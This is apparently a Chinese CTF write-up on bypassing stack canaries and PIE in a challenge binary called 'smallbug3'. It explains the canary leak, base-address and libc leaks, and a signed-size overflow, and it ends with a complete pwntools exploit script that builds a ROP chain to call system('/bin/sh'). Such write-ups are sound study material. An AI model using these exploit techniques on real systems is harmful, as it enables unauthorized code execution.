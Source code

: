 ```yaml
---
title: smallbug3
data: 2019-07-18
categories:
- sundry
tag: stack canary pie 
---
```


**<font style="font-size:25px">绕过canary & 确定基址</font>**

# Canary

## 概念

canary是一个保护机制，具体的实现，是在**ebp和esp**之间放入一个canary值，在程序结束的时候判断是否被更改，改变则通过__stack_chk_fail结束当前进程。一定程度上可以防止栈溢出攻击。
![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718130832_82SPi.png)    
注意这里的var_8,就是放canary值的偏移。   

![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718124702_rz8kk.png)

## 特性

占用一个字的大小，canary值的最低位一定是\x00。

## 绕过方法

### 劫持__stack_chk_fail

canary被改写后，程序流程就会经过__stack_chk_fail退出程序。如果将这个函数劫持    
- 例如更改got表

就可以在canary检查失败后劫持程序。   

### 泄露canary值

canary保护机制仅仅检查canary的值是否被篡改，而不会检查栈的其他内容。因此如果每次栈溢出的时候覆盖为相同的值就可以通过检查。   

#### 如何泄露

canary在存储时的最高位（小端序）是'\x00'，会截断canary值和前面的内容。只要将'\x00'覆盖成不会截断字符串打印的值，就可以通过打印字符串的形式得到当前canary值。

#### canary的生成

同一个线程里面的canary值是相同的。

### 爆破

还没试过。与`fork()`这个函数和线程有关。

### 覆盖与栈中canary值进行比较的值

![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718131614_PjAaf.png)

# 思路

## 漏洞点

![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718132149_Z3Anv.png)   

程序在判断大小的时候nbytes是做的有符号数，而在read中做参数的时候是无符号数。输入负数即可绕过判断进行栈溢出。

## 流程

这个二进制文件checksec一下会发现所有的保护都开了。   
`FULL RELRO`意味着没法改got表，所以要泄露canary的值。
要进行三次栈溢出。  
- 打印canary的值& 泄露程序基址
- 泄露libc基址
- getshell

### 程序基址怎么泄露


我暂时还没有找到相关资料，但是我打开了一些二进制文件，发现在main函数里面的时候：
- 32位的ebp指向的栈里保存的是0x0
- 64位的rbp指向的栈里保存的是__libc_csu_init的地址。
- 我还搞不清楚的是为什么__libc_csu_init的地址不是7f开头而是与程序加载基址有关。

我们如果用这个想法来看这个程序的rbp，  

![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718140553_Xj5Cz.png)    

虽然他去符号化了，但是按照这个思路来说，就可以根据__libc_csu_init的地址找到main的地址。
```python
main_addr = __libc_csu_init_addr & (~0xfff) + 0x9cc
```
`0x9cc` 是从ida里面看的main地址。因为他开了pie，所以这个只是一个偏移地址。程序加载基址是`__libc_csu_init_addr & (~0xfff)`

**<font style="font-size:30px"> 待补充原因</font>**

### libc基址怎么泄露

使用puts打印出puts@got的内容。

### getshell

可以使用one_gadget,也可以直接构造`system('/bin/sh')`,但是如果打远程的话需要知道libc的版本。  

系统中断不行，找不到int 0x80。   

### 注意点

1. 程序是64位，采用寄存器传参，需要使用pop_rdi_ret。
2. 地址低位为`\x00`时在`u64()`的前面补`\x00`，高位则在后面。

## 坑

为什么gdb.attach的位置会影响exp？？？

# exp

```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

sh = process('./smallbug3')
elf = ELF('./smallbug3')
libc = elf.libc

log.info("===================>fake size<=================")
sh.sendlineafter('name:\n',"-1")
log.info("===============>leak canary value<==============")
offset = 0x94 - 0x4 - 0x8
payload = 'A' * offset + 'B'

sh.sendafter('name:\n',payload)
sh.recvuntil("B")
canary = u64('\x00' + sh.recv(7))
print '-------------------{:#x}-----------------'.format(canary)

log.info("=============>leak process main addr <===========")
elf_base = u64( sh.recv(6) + '\x00\x00') & (~0xfff)
main_addr = elf_base + 0x9cc

log.info("===============>leak libc base<==================")
puts_got = elf.got['puts'] + elf_base
puts_plt = elf.plt['puts'] + elf_base
pop_rdi_ret = 0xb33 + elf_base

payload = 'A'* offset + p64(canary) + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(puts_got) 
payload += p64(puts_plt) + p64(main_addr)


sh.sendlineafter('us:\n',payload)
libc_base = u64(sh.recvuntil('\x7f')[-6:]+'\x00\x00') - libc.symbols['puts']

print '-------------------main_addr:{:#x}-----------------'.format(main_addr)
print '-------------------libc_base:{:#x}-----------------'.format(libc_base)

log.info('===============>get shell<=======================')
 #one_gadget local_libc
one_gadget = libc_base + 0x4239e
system_addr = libc_base + libc.symbols['system']
bin_addr = libc_base + libc.search('/bin/sh').next()

sh.sendlineafter('name:\n',"-1")
sh.sendlineafter('name:\n','A' * 8)
#payload = 'A' * offset + p64(canary) + 'A' * 8 + p64(one_gadget)
payload = 'A' * offset + p64(canary) + 'A' * 8 + p64(pop_rdi_ret) + p64(bin_addr) + p64(system_addr)
sh.sendlineafter('us:\n',payload)

sh.interactive()
sh.close()
```
